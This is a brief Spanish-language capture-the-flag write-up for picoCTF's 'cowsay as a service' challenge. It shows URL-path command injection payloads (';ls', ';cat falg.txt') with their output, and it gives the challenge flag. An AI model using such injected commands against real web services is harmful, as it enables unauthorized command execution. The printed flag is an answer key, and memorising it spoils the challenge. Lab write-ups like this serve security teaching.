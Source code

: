 ## Objetivo
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)
## Solución
https://caas.mars.picoctf.net/cowsay/holamundo;ls
```bash
< holamundo >
 -----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```
https://caas.mars.picoctf.net/cowsay/holamundo;cat%20falg.txt
```
 ___________
< holamundo >
 -----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```
## Notas Adicionales
Esta pagina web estaba mal hecha por que dada la estructura del index.js se pueden ejecutar comandos usando la url.
usando esto mismo buscamos entre los archivos hasta encontrar la flag.
flag: `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
### Referencias
